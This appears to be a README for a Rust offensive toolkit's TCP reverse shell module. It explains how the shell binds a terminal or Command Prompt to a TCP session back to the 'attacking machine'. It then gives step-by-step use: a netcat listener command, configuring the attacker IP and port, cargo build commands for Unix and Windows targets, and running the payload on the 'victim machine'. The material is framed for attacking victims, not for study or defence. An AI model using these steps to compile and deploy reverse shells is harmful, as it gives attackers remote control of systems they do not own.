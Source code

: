 # RCO: TCP Reverse Shell

## What it is

RCO's TCP reverse shell is a no-frills [reverse shell](http://127.0.0.1). This means it allows you to run Terminal (Unix)
or Command Prompt (Windows) commands _on the victim machine_ from the attacking machine. Getting a remote shell on a
victim machine usually allows much more control over the victim than other attacks. 

## How it works

Both RCO's Unix and Windows TCP reverse shells work by establishing a [TCP session](http://127.0.0.1) from the victim machine
to the attacking machine. Then a Terminal (Unix) or Command Prompt (Windows) process is spun up with its [standard input](http://127.0.0.1),
[standard output](http://127.0.0.1), and [standard error](http://127.0.0.1) all assigned to the TCP session. This means that
input commands and output results are read from and written to (respectively) a TCP stream.

## Using it

1. Start a listener on the attacking machine
    ```commandline
    nc -nlvp 4444
    ```

2. Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/tcp_reverse_shell/src/config.rs) 
and change the IP address and port to match your attacking machine and listener, respectively

3. Compile the executable

    #### For Unix targets
    ```commandline
    cargo build -p tcp_reverse_shell --release
    ```

    #### For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell --release
    ```

4. Execute the payload on the victim machine

5. Return to the listener and enter desired commands for the victim machine to run